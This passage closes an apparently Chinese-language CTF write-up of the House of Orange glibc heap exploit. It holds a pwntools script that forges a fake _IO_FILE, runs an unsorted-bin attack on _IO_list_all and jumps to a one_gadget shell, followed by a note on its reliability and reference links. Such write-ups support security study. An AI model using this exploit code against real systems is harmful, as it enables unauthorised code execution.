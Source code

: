 ```python
p.recvuntil('5' * 0x10)
heap_base = u64(p.recvuntil('\n', drop=True).ljust(8, '\x00')) - 0xd0
info('heap_base = ' + hex(heap_base))

io_list_all = libc_base + libc.symbols['_IO_list_all']
fake_file = IO_FILE_plus_struct()
fake_file._IO_read_ptr = 0x61 # Small-bin size
fake_file._IO_read_base = io_list_all - 0x10 # Small-bin's bk ; Unsorted-bin Attack
fake_file._mode = 0
fake_file._IO_write_ptr = 1
fake_file._IO_write_base = 0
fake_file.vtable = heap_base + 0x6e0
payload = '6' * 0x500 + p64(0) + p64(0x21) + p32(1) + p32(0x1f) + p64(0)
payload += str(fake_file) # heap_base + 0x600
payload += '\x00' * 0x18 + p64(one_gadget)
info('one_gadget = ' + hex(one_gadget))
#gdb.attach(p, 'dir ~/glibc-2.23/malloc\nb _int_malloc' + '\nc' * 6)
#gdb.attach(p, 'dir ~/glibc-2.23/libio\nb __libc_message\nb abort\nc')
upgrade(0x800, payload, 1, 1)
cmd(1)
p.interactive()
```

> House of Orange 并不是百分之百成功的，只有在 libc_base 的低 32 位为负数时才能成功，见[这篇文章](https://www.anquanke.com/post/id/168802#h3-7)。

# References

https://ctf-wiki.github.io/ctf-wiki/pwn/linux/io_file/introduction-zh/
https://ctftime.org/writeup/12124
https://dangokyo.me/2017/12/13/hitcon-2016-ctf-quals-house-of-orange-write-up/
https://github.com/scwuaptx/CTF/blob/master/2016-writeup/hitcon/houseoforange.py
http://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html
https://veritas501.space/2017/12/13/IO%20FILE%20%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/
